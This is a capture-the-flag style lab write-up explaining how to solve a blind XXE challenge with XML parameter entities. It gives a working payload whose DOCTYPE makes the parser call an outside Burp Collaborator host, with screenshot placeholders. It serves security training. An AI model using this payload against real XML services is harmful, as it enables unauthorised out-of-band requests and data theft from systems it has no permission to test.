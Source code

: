 # Blind XXE with out-of-band interaction via XML parameter entities
# Objective
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.\
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

|![](Images/image-9.png)|
|:--:| 
| *Check stock request* |

## Exploitation
The XML parameter injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-10.png)|
|:--:| 
| *XML parameter injection - out-of-band request* |
|![](Images/image-11.png)|
| *XML parameter injection - out-of-band request* |
